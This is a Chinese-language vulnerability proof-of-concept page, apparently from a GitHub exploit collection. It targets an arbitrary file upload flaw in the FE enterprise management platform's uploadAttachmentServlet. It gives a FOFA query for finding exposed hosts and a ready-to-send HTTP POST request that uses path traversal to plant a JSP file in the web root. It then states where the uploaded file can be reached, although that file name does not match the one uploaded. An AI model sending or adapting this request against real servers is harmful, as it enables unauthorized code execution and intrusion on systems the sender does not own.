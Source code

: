 ## 飞企互联-FE企业运营管理平台uploadAttachmentServlet存在任意文件上传漏洞

## fofa
```
app="FE-协作平台"
```

访问`/servlet/uploadAttachmentServlet` 出现下面情况说明存在漏洞

![image](../../images/f6e18f0b-09de-44bc-a9ca-440d92786ee7.png)


## poc
```
POST /servlet/uploadAttachmentServlet HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Length: 325

------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="uploadFile"; filename="../../../../../jboss/web/fe.war/123123.jsp"
Content-Type: text/plain

<% out.println("123123");%>
------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="json"

{"iq":{"query":{"UpdateType":"mail"}}}
------WebKitFormBoundaryKNt0t4vBe8cX9rZk--
```
![image](../../images/b2d253ca-80e4-4cdf-92e6-575b7cd8ba7e.png)


上传文件地址
`http://127.0.0.1/hello321.jsp;`

## 漏洞来源
- https://mp.weixin.qq.com/s/vRiYsWXKr0R0SKwx_aNYRQ
